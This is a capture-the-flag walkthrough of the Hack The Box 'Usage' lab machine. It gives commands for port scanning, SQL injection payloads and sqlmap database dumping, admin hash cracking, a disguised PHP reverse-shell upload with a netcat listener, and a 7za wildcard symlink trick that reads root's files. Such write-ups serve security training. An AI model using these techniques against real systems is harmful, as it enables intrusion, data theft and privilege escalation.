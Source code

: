 # Usage machine from [Hack The Box](https://www.hackthebox.com/)

Target IP: 10.10.11.18
## Enumeration and reconnaissance

Using nmap we launch a SYN scan on every port (65535) looking for services and export the results to the file named `open_ports`
``` bash
nmap -p- -sS -n -Pn -vvv --min-rate 3000 -oG open_ports 10.10.11.18
```
The target machine only has ports 22 (SSH) and 80 (HTTP) open.

## Gaining access to target machine

Before accessing the http service we should add the domain to `/etc/hosts` for the browser to know which IP should use because it's being redirecting to the domain 'usage.htb'
``` bash
echo "10.10.11.18   usage.htb" >> /etc/hosts
```

The application in `http://10.10.11.18` is very simple, it has a button to recover the password that redirect us to `usage.htb/forget-password`. There we have a box to insert our email (I previously registered using test@test.com) and it's vulnerable to SQL Injections, as you can verify with simple payloads like
``` bash
# Payloads to verify the SQLi vulnerability
test@test.com' OR 1=1-- -
' OR 1=1-- -
```
Eventhough the application is vulnerable to SQLi we don't have any kind of response from the server, which points us to Blind SQLi, an annoying kind of vulnerability to be honest.


### Exploting SQL Injections

To exploit the blind SQLi I'm gonna use `sqlmap` setting the `--level` to 5.
``` bash
sqlmap -r db_request --dbms=mysql --level=5 --dbs --batch
```
`-dbs:` to list all the databases \
`-level <N>:` to decide how exhaustive the attack would be\
`-batch:` to avoid waiting for user input and use the default options instead

Once we discover some databases, we can use the following command to inspect the available tables
``` bash
sqlmap -r db_request -D <database> --tables --batch
```
Once we have information about tables, we can use `--columns` to inspect the structure of the table itself.
``` bash
sqlmap -r db_request -D <database> -T <table> --columns --batch
``` bash
And finally using `--dump` we query the contents of the selected table from the selected database.

``` bash
sqlmap -r db_request -D <database> -T <table> -C <column> --dump --batch
```

In the photo below we can see how sqlmap is able to identify and clasify the vulnerability and also what payload it's using
![sqlmap result + SQL blind injection](imgs/image.png)


Below we can see how we were able to dump contents of the desired table that we were able to know thanks to the blind sqli discovery conducted by sqlmap. (Kudos to the developers of such a wonderful tool!)

Database: *usage_blog*\
Table: *admin_users*

![admin password](imgs/image-1.png)

Since the password seems to be hashed, we use John the ripper to crack it (copy the hash to a file)
```
john admin_password_hash
# password: whatever1
```

### Logging as admin in the web application

Using the obtained password we are able to log in as admin to the web page. 

Veri easily we can spot that the file upload feature from the administrator panel is vulnerable. And to exploit we must intercept the upload request (using Burpsuite or another proxy) and use a file type that seems like an image, in my case I'm uploaded a file named `reverse-shell.php.png`. Then from the proxy we can remove the `.png` extension and the file would be uploaded succesfully.

Below is the content of that file

![reverse-shell](imgs/reverse-shell.png)

Of course before uploading the file -which is going to trigger the target machine to stablish a reverse shell to our host- we must start listening on the same port

```
nc -nlvp 443
```
## Obtaining user flag
Once we stablish a connection to the victim machine, we can see the current user is `dash`. 

We got our first flag
`cat /home/dash/user.txt`


NOTE: The reverse shell works fine, but for a limited period of time so I just opened another bash process and, from the victim machine, stablished another connection to my host to avoid it closing.

## Getting root flag

### Pivoting from user1 (dash) to user2 (xander)
The `dash` user doesn't have special access, so first we can proceed with a lateral movement into another user: `xander`. Which is really easy because inspecting the file `/home/dash/.monitrc` we found out what seems to be a password. So let's try it for `xander`

![alt text](imgs/image-2.png)

Now the user `xander` has sudo access to use the binary `/usr/bin/user_management`
``` bash
sudo -l
#(ALL : ALL) NOPASSWD: /usr/bin/usage_management
```

After inspecting that binary with `strings` and playing a while running it we can confirm that option 1 of the executable (it has a menu with 3 options) performs a compresions of `/var/www/html`.

More splicity the command is
`/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *`

**Pay attention to the wildcard!**

So, we can run the `7za` tool with sudo and what is even more important is the command uses the `*` wildcard. Looking into `7za --help` we can see that there is a way of listing the contents of the files to compress: using `@file` will result on 'file' being compressed while it's contents gets printed. That's very useful!!

We could run something like `7za a test-folder @file-name` and that should send 'file-name' to the archive called 'test-folder' while **printing it's content**. So if we manage to make file-name --points to--> root.txt and run the command as sudo we would be able to read it's content.

Summarazing: 
- we can run `/usr/bin/user_management` as sudo
- using option 1 when running `/usr/bin/user_management` runs `/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *` from `/var/www/html`
- prepending "@" to file's name, when using `7za` print's it's content on stdout.

All in place, we just need a way to make that "*" somehow expands to "@root.txt" for the actual 7za command ends up being `/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- @root.txt [...]`
To do so we can create a file called '@root.txt' and another one called `root.txt` (we need the 2nd one so the content get's displayed) which would be a symlink pointing to the actual `/root/root.txt`

``` bash
# from /var/www/html
# create the bait file
touch "@root.txt"
# symlink to the original root.txt
ln -s -r /root/root.txt root.txt
```

Once everything is in place, let's hack!
``` bash
sudo /usr/bin/user_management
# input option 1 when prompted
# the content of root.txt should be display as plain text!
```


## Summary

We were able to compromise this machine because of the following vulnerabilities:

* Blind SQL Injection on an 'email' field which allows to enumerate the databases
* The password in the database wasn't hard to crack
* The admin panel was vulnerable to Remote File Inclusion which allows us to stablish a reverse-shell
* A password present in plaint text in file named `.monitrc` which allows us to pivot to another user
* Sudo permissions to execute a vulnerable script because it's using wildcards, which allows us to read the content of ANY file as sudo
